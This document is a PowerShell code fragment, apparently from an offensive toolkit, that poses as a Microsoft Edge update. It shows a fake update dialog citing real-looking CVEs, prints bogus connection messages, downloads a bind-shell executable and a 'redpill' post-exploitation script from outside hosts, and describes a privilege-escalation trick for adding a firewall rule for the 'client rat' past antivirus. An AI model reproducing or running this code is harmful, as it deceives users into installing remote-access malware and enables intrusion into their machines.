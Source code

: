```powershell
$MEdgeVersion = "$parseData"+"$adiciona1"            ## 91.0.864.42
$host.UI.RawUI.WindowTitle = "Microsoft Edge $MEdgeVersion Browser Update Service"


## Social Engineering MsgBox
$Result = [System.Windows.MessageBox]::Show("                                                Feature update                                                `n`nMicrosoft has released the latest Edge Stable Channel (version $MEdgeVersion)`nwhich incorporates the latest Security Updates of the Chromium project.`nCVE-2021-33741,CVE-2021-31937,CVE-2021-31982,CVE-2021-21224`n`nTHIS SOFTWARE IS PROVIDED BY THE REGENTS AND CONTRIBUTORS ``AS IS'' AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE REGENTS OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.`n`n                            Install Microsoft Edge $MEdgeVersion Update?","                           Microsoft Edge Stable Channel $MEdgeVersion",1,0)
Write-Host "Please Wait, preparing microsoft edge for updates .." -ForegroundColor Green;Start-Sleep -Milliseconds 1400
Write-Host "Connecting to MicrosoftEdge.Store on TCP 6006 SSL .." -ForegroundColor DarkYellow -BackgroundColor Black


## Download Client BindShell
If(-not(Test-Path -Path "$OutFile" -EA SilentlyContinue))
{
   iwr -uri "https://github.com/d3adzo/shepard/releases/download/1.1/shepbind_serv.exe" -outfile "$OutFile" -UserAgent "Mozilla/5.0 (Android; Mobile; rv:40.0) Gecko/40.0 Firefox/40.0"|Out-Null
}

## Download redpill auxiliary
If($PostExploit -ieq "True")
{
   If(-not(Test-Path -Path "$Env:TMP\redpill.ps1" -EA SilentlyContinue))
   {
      ## Download redpill auxiliary!
      iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/redpill.ps1" -outfile "$Env:TMP\redpill.ps1" -UserAgent "Mozilla/5.0 (Android; Mobile; rv:40.0) Gecko/40.0 Firefox/40.0"|Out-Null
   }
}


If($IsClientAdmin -eq $False -and $Firewall -ieq "True")
{

   <#
   .SYNOPSIS
      Author: @r00t-3xp10it
      Helper - Create 'Client rat' firewall exception rule!

   .DESCRIPTION
      If sellected -Firewall 'True' and target system shell does NOT have
      administrator privileges then this function uses EOP to add the rule!
      Remark: This function spawn's a antivirus warning (no consequences).

   .NOTES
      Although EOP ComputerDefaults.exe is actually flagged by antivirus solutions.
      It is still very useful in situations where a registry key needs to be added\run quickly
      (create firewall exception rule). In this situation, even if the antivirus deletes the
      corresponding registry keys (it does), the command has already been successfully executed. 
   #>
```